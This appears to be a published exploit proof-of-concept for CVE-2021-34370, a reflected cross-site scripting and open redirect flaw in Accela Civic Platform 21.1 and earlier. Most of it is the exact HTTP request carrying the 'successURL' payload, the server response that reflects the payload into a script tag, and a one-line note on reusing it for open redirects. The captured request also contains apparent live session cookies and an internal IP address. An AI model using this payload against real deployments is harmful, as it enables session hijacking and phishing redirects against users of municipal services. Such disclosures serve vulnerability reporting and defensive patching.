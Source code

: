     # Exploit Title: Accela Civic Platform 21.1 - 'successURL' Cross-Site-Scripting (XSS)
    # Software Link: https://www.accela.com/civic-platform/
    # Version: <= 21.1
    # Author: Abdulazeez Alaseeri
    # Tested on: JBoss server/windows
    # Type: Web App
    # Date: 07/06/2021
    # CVE-2021-34370



    ================================================================
    Accela Civic Platform Cross-Site-Scripting and Open Redirect <= 21.1
    ================================================================


    ================================================================
    Request Heeaders start
    ================================================================

    GET /ssoAdapter/logoutAction.do?servProvCode=SAFVC&successURL=%27^alert`1`^%27 HTTP/1.1

    Host: Hidden

    Cookie: JSESSIONID=bjmCs2TMr3RzVGT28iJafk0vRpZcd2uO0QVlR7K9.civpnode; BIGipServerAccela_Automation_av.web_pool_PROD=1360578058.47873.0000; LASTEST_REQUEST_TIME=1623056446126; LATEST_LB=1360578058.47873.0000; LATEST_SESSION_ID=xWGsssz3eS1biQdST9lnfkxyMMUp2q3HLR75bGaX; LATEST_WEB_SERVER=10.198.24.82; UUID=35e180c4-bde4-48e3-876f-0f32c6e85d5c; JSESSIONID=***************************; g_current_language_ext=en_US; hostSignOn=true

    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

    Accept-Language: en-US,en;q=0.5

    Accept-Encoding: gzip, deflate

    Upgrade-Insecure-Requests: 1

    Te: trailers

    Connection: close

    ================================================================
    Request Heeaders end
    ================================================================



    ================================================================
    Response Heeaders start
    ================================================================
    HTTP/1.1 200 OK

    Connection: close

    Set-Cookie: JSESSIONID=8qVANwRg4mQWxQ6vAuZOxtv7OEhEMbEXJdc2CzTY.civpnode; path=/ssoAdapter

    X-XSS-Protection: 0

    Content-Type: text/html;charset=ISO-8859-1

    Content-Length: 73

    Date: Tue, 08 Jun 2021 10:41:59 GMT



    <script type='text/javascript'>document.location=''^alert`1`^''</script>

    ================================================================
    Response Heeaders end
    ================================================================

    Payload: %27^alert`1`^%27

    for open redirect, replace the payload to a valid website.